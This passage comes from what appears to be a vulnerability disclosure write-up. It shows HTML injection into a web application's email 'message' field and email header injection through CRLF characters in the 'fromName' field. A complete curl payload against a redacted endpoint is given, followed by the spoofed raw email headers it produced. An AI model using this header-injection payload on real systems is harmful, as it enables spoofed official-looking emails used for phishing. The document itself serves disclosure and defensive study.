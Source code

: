     <h1>TEST</h1><!-- <br><br><p>      <span style="font-size: 11pt; font-family: &quot;Calibri&quot;, &quot;sans-serif&quot;; mso-fareast-font-family: Calibri; mso-fareast-theme-font: minor-latin; mso-bidi-font-family: &quot;Times New Roman&quot;; mso-ansi-language: EN-US; mso-fareast-lan

    ------=_Part_525_1995287416.1558356802077--

As shown above, we successfully commented out the default application
message by using the HTML comment character `<!--`. Because the email is
sent using a multipart Content-Type with an HTML part, we are able to
inject HTML into the `message` field in the JSON blob. This ability
alone could be abused for nefarious purposes, such as attempting to
trick a user into clicking on a link targeted at a malicious website.

We also noticed the order in which the Email Headers were written. From
the looks of it, if we could control the `fromName` parameter, which
corresponds with the `From` email header, then we could possibly inject
custom headers into the email.

Using the following `curl` payload, we were able to send and receive the
email below:

    curl https://<VULNERABLEDOMAIN>/system/ws/v11/ss/email \
    -H "Content-Type: application/json" \
    -H "Accept: application/json" \
    -d 'portalId=<REDACTED>&data={"toName": "", "fromName": "%0ATo: example@<MAVERIS_SMTP>%0AFrom: <test@ORGANIZATION_DOMAIN>%0ASubject: An Official Notification%0AMIME-Version: 1.0%0A%0A", "toEmail": "example@<MAVERIS_SMTP>", "fromEmail": "<test@ORGANIZATION_DOMAIN>", "articleId": "<REDACTED>", "message": ""}&usertype=customer'

Which rendered the following email in our inbox:

![](https://cdn-images-1.medium.com/max/800/1*C2DvZN1feC4b4e2MBZf36w.png)

    X-SBRS: None
    X-MID: <REDACTED>
    Message-ID: <REDACTED>
    Date: <REDACTED>
    From:
    To: example@<MAVERIS_SMTP>
    From: <test@ORGANIZATION_DOMAIN>
    Subject: An Official Notification
    MIME-Version: 1.0
    " <test@ORGANIZATION_DOMAIN>
    To: example@<MAVERIS_SMTP>
    Message-ID: <REDACTED>
    Subject: <REDACTED>
    MIME-Version: 1.0
    Content-Type: multipart/alternative;
    boundary="----=_Part_98_1688600583.1559353727377"

    ------=_Part_98_1688600583.1559353727377
    Content-Type: text/plain; charset=UTF-8
    Content-Transfer-Encoding: 7bit

    <REDACTED WEB APPLICATION DEFAULT MESSAGE>
